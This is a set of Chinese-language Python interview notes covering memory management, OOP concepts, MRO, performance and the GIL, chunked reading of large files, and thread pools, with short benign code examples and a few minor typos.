any([]) 返回 False，因为“⼀个为真的都没有”
all([]) 返回 True， 这叫“空真”，逻辑上说得通⸺“没有不为真的元素”


## Python 有哪些特点和优点？
1.语法简洁直观
2.动态类型系统让变量⽆需声明类型，⽤起来灵活
3.它有极强的标准库，⽐如 os 、 json 、 http 这些开箱即⽤
4.解释执⾏，跨平台，但性能不如编译型语⾔


## 如何在 Python 中管理内存？
对于⼤量⼩对象的场景，⽐如 Web 服务中频繁创建 dict 或 list，Python 还⽤了对象池和缓存机制。像⼩整数（-5 到
256）、短字符串会被驻留，重复使⽤同⼀内存地址，减少分配开销。
```
class Point:
    __slots__ = ['x', 'y'] # 节省内存，避免每个实例都建 __dict__
```
总的来说，⽇常开发不⽤太操⼼内存，但处理⼤数据、⻓时间运⾏服务时，得留意循环引⽤和对象⽣命周期

## Python 程序退出时，是否释放所有内存分配？
能释放的 Python 对象基本都会被处理，但别指望它像堆栈弹出那样精确。最终的内存安全是由操作系统托底的。

Python 程序退出时，操作系统会回收进程占⽤的全部内存，这是系统层⾯的保障。我们讨论的重点其实是 Python 解
释器⾃⾝是否主动释放所有对象。
对于 CPython 来说，⼤部分对象靠引⽤计数管理。只要引⽤计数归零，内存⽴刻被释放。但存在例外：循环引⽤的对
象，即使不再使⽤，引⽤计数也不为零，⽆法被及时清理。
这类对象依赖 垃圾回收器（GC）来处理。CPython 的 GC 是分代回收机制，程序退出前通常会触发⼀次完整的垃圾回
收，尝试清理这些不可达对象。不过这个过程不保证 100% 执⾏，尤其在异常终⽌或调⽤ os._exit() 时可能跳
过。
另外，有些内存压根不经过 Python 的内存池，⽐如通过 C 扩展直接申请的内存，或者解释器内部结构占⽤的空间。
这部分能否释放取决于对应模块的实现。像 NumPy 数组、⽤ ctypes 分配的缓冲区，正常退出时⼀般会被清理，但也
不能完全依赖 Python 主动释放。
代码⾥可以⼿动触发清理：
```
import gc
gc.collect() # 强制运⾏垃圾回收
```
但实际开发中，没必要在退出前写⼀堆 del 或 gc.collect() 。操作系统会兜底回收资源，把精⼒放在解决内存
泄漏和优化运⾏期的对象⽣命周期更实在。

## 解释型语⾔ Python 和编译型语⾔有什么区别？
区别不在“快不快”，而在“什么时候把代码变成机器能执行的东西”。

编译型语言在运行前将代码一次性编译为机器码并直接执行，而解释型语言在运行时通过解释器逐步执行（通常先编译为字节码再解释），两者本质区别在于代码转换为可执行形式的时机和执行控制权的归属。

很多人说：
❌ “编译型更快”
👉 不够本质

✔ 真正原因是：
编译型语言把所有优化提前做完
解释型语言把一部分成本留到运行时


## Python 中如何删除字符串中的前置空格？
lstrip() ⽅法：
1）直接调⽤ lstrip() ，不带参数，会移除所有前置空格和制表符、换⾏符这类空⽩字符
2）也可以传个字符集，⽐如 lstrip(' ') 就只删空格，不会动别的空⽩符
```
text = " hello world "
clean = text.lstrip() # 结果是 "hello world "
```

注意, 它返回的是新字符串，原字符串不会被修改，因为字符串在 Python ⾥是不可变的。你要⽤变量接住返回值才算真
正“删除”。

想同时删前后空格，⽤ strip() ，删后置空格⽤ rstrip() 。


## 什么是 Python ⾯向对象的封装特性？
封装的本质是把对象的属性和操作这些属性的⽅法绑在⼀起，对外隐藏内部实现细节。你调⽤⼀个⽅法时，压根不关
⼼它内部怎么实现的，只要知道这个接⼝能做什么就⾏。

⽐如定义⼀个类，⽤双下划线 __ 开头的变量或⽅法，Python 会做名称重整（name mangling），让外部直接访问
变得困难，这就实现了访问控制。但这不是绝对安全的，只是语法层⾯的限制。

1）属性私有化：通过 __attribute 让属性不能被直接访问
2）提供公共接⼝：⽤ get_value() 和 set_value() 这样的⽅法间接操作数据
3）内部逻辑可变：外⾯⽤的⼈不需要改代码，因为底层实现可以随时调整
```
class BankAccount:
    def __init__(self):
        self.__balance = 0 # 私有属性

    def deposit(self, amount):
        if amount > 0:
            self.__balance += amount

    def get_balance(self):
        return self.__balance
```

像 Django 的模型字段、Flask 的请求上下⽂，都⽤了封装来屏蔽复杂性。外⾯拿到的是个简单接⼝，背后可能涉及数
据库连接、线程局部存储这些脏活累活。

其实封装最⼤的好处是降低耦合。⼀个模块搞不定，拆成多个⼩部分，各⾃把⾃⼰封装好，别⼈⽤起来就省⼼。Java
⾥有 private 关键字，Python 更靠约定，但思路是⼀样的。


## 什么是 Python ⾯向对象的抽象特性？
⾯向对象的抽象特性，说⽩了就是把⼀类事物的共性抽出来，定义成⼀个“模板”，让⼦类去具体实现。Python ⾥没
有原⽣的抽象类⽀持，但通过 abc 模块能强制实现这层约束。
1）定义抽象类必须继承 ABC ，并且⽤ @abstractmethod 装饰器标记⽅法。这样⼦类如果没重写这个⽅法，实例
化时直接报错。
 2）抽象⽅法可以有实现，但⼀般不写具体逻辑，因为它的作⽤是“占位”，确保⼦类提供统⼀接⼝。
⽐如做⽀付系统，你可以定义⼀个抽象类 Payment ，⾥⾯有个抽象⽅法 pay() 。微信⽀付、⽀付宝⽀付这些⼦类
就必须实现⾃⼰的 pay() ，不然代码跑不起来。
```
from abc import ABC, abstractmethod
class Payment(ABC):
    @abstractmethod
    def pay(self, amount):
        pass
class WeChatPay(Payment):
    def pay(self, amount):
        print(f"微信⽀付 {amount} 元")
```
这种设计在框架⾥很常⻅，你不⽤关⼼每个⼦类怎么实现，只要知道它们都有 pay 这个能⼒就⾏。
抽象不是为了“炫技”，⽽是为了规范⾏为。当你需要⼀组类对外表现⼀致、内部实现各异时，就该想到它。

## 什么是 Python 中的模块和包？
1.Python ⾥，⼀个 .py ⽂件就是⼀个模块，它能定义函数、类和变量，把相关代码组织在⼀起。⽐如写个utils.py ，⾥⾯放⼏个⼯具函数，别的⽂件要⽤时直接 import utils 就⾏。
2.多个模块可以进⼀步组织成包，⽤来管理更⼤规模的项⽬。包其实就是⼀个⽬录，但必须包含⼀个 __init__.py ⽂件（哪怕这个⽂件是空的），Python 才会把它识别为包。
3.包⽀持层级结构，也就是⼦包。像 mypackage/cache/redis.py 这样的路径，只要每⼀级⽬录都有__init__.py ，就能⽤ import mypackage.cache.redis 来引⽤。

实际项⽬中，像 Django 或 Flask 这些框架都⼤量使⽤包来组织代码。现在新项⽬虽然可以⽤隐式命名空间包（不⽤强
制 __init__.py ），但显式写出来更清晰，兼容性也好。

## 什么是 Python 的 OOPS（⾯向对象编程）？
⾯向对象编程在 Python ⾥其实是⼀种组织代码的⽅式，把数据和操作数据的⽅法绑在⼀起，构成“对象”。每个对象是某个类的实例，类就像图纸，定义了对象该有哪些属性和⾏为。

1）类和实例
类⽤ class 定义，⾥⾯可以有属性和⽅法。实例是根据类创建出来的具体对象。
```
class Dog:
    def __init__(self, name):
        self.name = name
        
    def bark(self):
        print(f"{self.name} 叫了⼀声")

my_dog = Dog("旺财")
my_dog.bark()
```

2)四⼤特性
封装是把内部细节藏起来，只暴露接⼝。⽐如⽤双下划线 __private 让属性难以直接访问。
继承让⼦类复⽤⽗类的代码，Python ⽀持多继承，但容易出问题，⼀般推荐⽤组合。
多态指的是不同类的对象可以对同⼀⽅法名做出不同响应。⽐如 len() 能作⽤于字符串、列表等不同类型。
抽象虽然 Python 没有原⽣⽀持，但可以通过 abc 模块定义抽象基类，强制⼦类实现某些⽅法。

3）使⽤场景
适合业务模型清晰、状态和⾏为耦合强的场景，⽐如 Web 框架中的⽤户、订单等实体。⼩脚本或简单逻辑没必要硬套OOP，函数式或过程式更直接。

## 什么是 Python 类中的 self？
Python 类⾥的 self 其实就是实例本⾝，你调⽤⽅法时 Python 会⾃动把实例传进去。
定义⽅法时写 self 是为了能访问实例的属性和其它⽅法。⽐如你有个类 Person ，写⽅法就得通过 self.name
来读写这个实例的名字。
你不⼿动传 self ，它是解释器帮你处理的绑定机制。换个名字语法上也⾏，但所有⼈都⽤ self ，别⾃找麻烦。
它和 Java 的 this 差不多意思，只不过 Python 要显式写在参数列表⾥，不能省。


## Python 的类和对象有什么区别？
Python ⾥定义⼀个类，其实就是在描述⼀类事物的模板。⽐如你写个 class Person: ，这不代表某个具体的⼈，
⽽是定义了“⼈”这个类型该有的属性和⾏为。
当你⽤这个类去创建实例，⽐如 p = Person() ，这时候 p 就是⼀个对象。它是根据类这个模板实实在在造出来的
东西，有具体的内存空间，可以存储数据，也能调⽤⽅法。
1）类是代码层⾯的定义，只在定义时解析⼀次，不占运⾏时的实例数据空间
2）对象是类的运⾏时实例，每个对象都有⾃⼰的⼀套属性值，互不影响
3）类可以看作对象的⼯⼚，通过它能创建出多个对象

所有对象都共享类中定义的⽅法，但每个对象的属性独⽴。你可以理解为：类是图纸，对象是按图纸造出来的机器，
每台机器状态不同，但功能结构⼀致。

## 什么是 Python ⾯向对象的多态特性？
多态在 Python ⾥其实指的是同⼀个接⼝，不同实例能表现出不同的⾏为。
它不靠继承强制约束，⽽是依赖“鸭⼦类型”⸺只要对象有对应的⽅法，就能调⽤，压根不关⼼它是不是某个⽗类的实例。

⽐如你定义⼀个函数 make_sound(animal) ，只要传进来的对象有 sound() ⽅法，就能正常执⾏。Animal 是基
类也好，Dog、Cat ⾃⼰实现也⾏，甚⾄完全⽆关的 Robot 能叫也OK。Python 的多态是运⾏时决定的，灵活性⾼，
但编译期没法检查⽅法是否存在。
```
def make_sound(animal):
    animal.sound() # 只要你有 sound ⽅法，我就敢调

class Dog:
    def sound(self):
        print("汪")

class Cat:
    def sound(self):
        print("喵")

make_sound(Dog()) # 汪
make_sound(Cat()) # 喵
```
1）不需要显式继承同⼀⽗类也能实现多态
2）⽅法存在即可⽤，没有接⼝或抽象类的硬性要求（虽然可以⽤ ABC 模块定义）
3）出错往往发⽣在运⾏时，调⽤不存在的⽅法直接抛 AttributeError

## 继承特性
继承让⼦类能复⽤⽗类的属性和⽅法，同时可以扩展或修改⾏为。支持多继承

1）⼦类可以重写⽗类的⽅法，实现多态
2）通过 super() 调⽤⽗类⽅法，避免直接写⽗类名，增强维护性
3）多继承时要注意⽅法冲突，合理设计类层次

如果多个⽗类都有同名⽅法，按 MRO 顺序决定谁先被调⽤。设计时尽量避免菱形继承带来的歧义，但真⽤了 Python
也能正确处理。


## Python 是否⽀持多重继承？
Python 确实⽀持多重继承，⼀个类可以同时从多个⽗类继承属性和⽅法。这跟 Java 完全不同，Java 只允许单继承，
靠接⼝弥补。


写法上很简单，定义类的时候把多个⽗类放进括号⾥就⾏：
```
class A:
    def method(self):
        print("A method")

class B:
    def method(self):
        print("B method")
        
class C(A, B):
    pass

obj = C()
obj.method() # 输出 "A method"
```


多继承 调⽤ method 会按 MRO（Method Resolution Order） 查找，也就是⽅法解析顺序。Python 使⽤ C3 线性化
算法来确定继承顺序，保证每个类只被调⽤⼀次，避免菱形继承的问题。

可以通过 C.__mro__ 查看解析顺序：

实际⽤的时候要⼩⼼⽅法冲突。⽐如 A 和 B 都有同名⽅法，那排在前⾯的优先。如果⽗类都实现了 __init__ ，记
得⽤ super() 协调调⽤，不然可能某个⽗类的初始化被跳过。


## 为什么 Python 执⾏速度慢，如何改进？
Python 慢这事，得从它的设计哲学说起。它追求的是开发效率，不是运⾏效率，所以很多东西都做了妥协。

1）动态类型是性能杀⼿之⼀。变量类型在运⾏时才能确定，每次操作都要做类型检查和查找，不像 Java 或 C++ 在编
译期就定死了。⽐如 a + b ，解释器得先查 a 和 b 的类型，再找对应的加法实现，这个过程其实挺耗时间的。
2）GIL（全局解释器锁） 让 Python 的多线程没法真正并⾏。哪怕你有 16 核 CPU，CPython 执⾏字节码时也只允许
⼀个线程跑，其他线程全在⼲等。CPU 密集型任务直接被锁住，压根不经过多核。
3）解释执⾏本⾝也慢。Python 先把代码编译成字节码，再由解释器⼀条条执⾏，没有 JIT 编译优化，热点代码不会
被编译成机器码加速。

改进办法看场景：
计算密集型：⽤ Cython 把关键函数转成 C 扩展，或者上 Numba 直接装饰函数做 JIT。
并发处理：绕开线程⽤ multiprocessing ⾛多进程，把 GIL 的问题直接避开。
Web 服务类：换 PyPy，它⾃带 JIT，对纯 Python 逻辑提速明显，尤其⻓周期服务。
㬵⽔⻆⾊：让 Python 调⽤ C/C++ 或 Rust 写的扩展模块，像 pandas 底层就是 C 实现的。

本质上，Python 慢是因为它把脏活累活都揽在运⾏时。要提速，就得把这部分卸出去，交给更底层或更聪明的运⾏环境。


## Python 中如何读取⼤⽂件，例如内存只有 4G，如何读取⼀个⼤⼩为 8G 的⽂件
处理超⼤⽂件的核⼼是避免⼀次性加载到内存。 Python 提供了多种流式读取⽅式，关键是控制每次读取的数据量。

1.⽤ open() 打开⽂件后，按固定⼤⼩分块读取最稳妥。⽐如设置每次读 1024 字节，循环处理直到⽂件结束。这样哪
怕⽂件有⼏⼗ G，内存始终只占⽤⼏ KB 到⼏ MB。
```
with open('huge_file.txt', 'r') as f:
    while chunk := f.read(1024):
        process(chunk) # 处理每⼀块数据
```

2.如果⽂件是按⾏组织的，⽐如⽇志⽂件，可以⽤迭代器逐⾏读取。 for line in file 实际上内部做了缓冲管理，
也不会撑爆内存。
```
with open('huge_log.txt', 'r') as f:
    for line in f:
        process(line.strip())
```

3.⽣成器也能配合⼤⽂件使⽤。你可以写⼀个 yield 每⼀⾏或每⼀块的函数，在后续逻辑中像操作普通序列⼀样处理，但实际是惰性求值。

需要特别注意的是，不要⽤ readlines() 或 list(f) 这种⽅法，它们会试图把所有内容装进列表，8G ⽂件直接
⼲掉 4G 内存。


## Python 的 namedtuple 有什么作⽤？怎么使⽤？
返回一个新的具有命名字段的元组子类。但能通过字段名访问元素，⽐普通元组可读性强得多。

1.它⽣成的类⾃带 __repr__ 、⽀持拆包、⽐较操作，⽽且创建开销极⼩，适合做数据记录载体。
2.注意它不可变，和 tuple ⼀样


## 
Python 线程池的核⼼是预先创建⼀组线程，统⼀管理和复⽤它们来执⾏多个任务，避免频繁创建销毁线程带来的开销。操作系统创建和调度线程是有成本的，特别是在处理⼤量短任务时，这种开销会显著影响性能。

线程池⾥维护了⼀个任务队列和⼀组⼯作线程。所有提交的任务都会被放进这个队列，空闲的⼯作线程就从队列⾥取任务执⾏。你可以把它想象成⼀个快递中转站，快递员（线程）固定，包裹（任务）来了就放分拣区（队列），谁有空谁去处理。

Python 的 concurrent.futures.ThreadPoolExecutor 就是标准实现。⽐如你设置最⼤ 5 个线程，哪怕提交
100 个任务，也最多只有 5 个线程在跑，剩下的任务排队等空闲线程。
```
from concurrent.futures import ThreadPoolExecutor

def task(n):
    eturn n * n

with ThreadPoolExecutor(max_workers=5) as executor:
    results = list(executor.map(task, range(10)))
````

max_workers 控制并发度。任务数超过线程数时，多出来的任务不会⽴刻执⾏，⽽是等待前⾯的任务完成。

注意，线程不安全的操作还是要加锁，线程池本⾝不解决这个问题。